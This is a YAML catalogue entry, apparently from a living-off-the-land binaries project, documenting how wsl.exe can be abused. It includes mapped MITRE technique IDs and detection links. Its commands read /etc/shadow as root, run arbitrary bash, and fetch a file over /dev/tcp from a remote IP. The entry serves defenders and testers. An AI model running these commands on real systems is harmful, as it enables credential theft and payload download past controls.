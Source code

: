 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: 'Matthew Brown'
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: EXE
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c "<command>"
    Description: Executes Linux command (for example via bash) as the default user (unless stated otherwise using `-u <username>`) on the default WSL distro (unless stated otherwise using `-d <distro name>`)
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wsl_lolbin_execution.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
  - Person: Konrad 'unrooted' Klawikowski
---
```

